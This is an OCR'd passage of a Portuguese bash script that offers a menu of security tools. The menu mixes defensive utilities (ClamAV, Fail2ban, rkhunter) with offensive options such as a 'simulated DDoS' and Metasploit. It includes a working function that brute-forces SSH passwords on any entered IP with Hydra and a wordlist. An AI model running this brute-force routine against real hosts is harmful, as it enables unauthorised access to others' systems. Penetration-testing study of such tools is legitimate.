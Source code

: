     echo "Executando verificação de rootkits..."
    sudo rkhunter --check

    echo "Verificação de rootkits concluída."
    echo "===================================================================="
    read -p "Pressione Enter para continuar..."
}

# Função para acessar dispositivo remotamente via SSH com força bruta
acessar_dispositivo_remoto() {
    clear
    echo "======================= Acessar Dispositivo Remoto via SSH ======================="
    echo "Insira o endereço IP do dispositivo alvo:"
    read ip_address
    echo "Insira o nome de usuário (username) para o acesso SSH:"
    read username
    echo "Insira o caminho para o arquivo de wordlist de senhas:"
    read wordlist

    echo "Tentando acessar $ip_address com o usuário $username usando Hydra..."
    hydra -l $username -P $wordlist ssh://$ip_address -t 4

    echo "Se uma senha for encontrada, use o comando abaixo para acessar o dispositivo:"
    echo "ssh $username@$ip_address"
    echo "==========================================================================="
    read -p "Pressione Enter para continuar..."
}

# Função para menu principal
mostrar_menu() {
    clear
    echo "==========================================="
    echo "    Menu - Ferramentas de Segurança         "
    echo "==========================================="
    echo " Escolha uma opção:"
    echo "  1. Ataque DDoS Simulado"
    echo "  2. Varredura de Portas com Nmap"
    echo "  3. Teste de Vulnerabilidade com Metasploit"
    echo "  4. Configurar VPN"
    echo "  5. Teste Simples de Segurança"
    echo "  6. Teste de Segurança de Rede WiFi com Aircrack-ng"
    echo "  7. Análise de Vulnerabilidades com OpenVAS"
    echo "  8. Scanner de Servidores Web com Nikto"
    echo "  9. Captura de Pacotes com Tcpdump"
    echo " 10. Antivírus com ClamAV"
    echo " 11. Proteção contra Ataques de Força Bruta com Fail2ban"
    echo " 12. Verificação de Rootkits com Rkhunter"
    echo " 13. Baixar e Instalar Ferramentas Adicionais"
    echo " 14. Acessar Dispositivo Remoto via SSH"
    echo "  0. Sair"
    echo "==========================================="
}
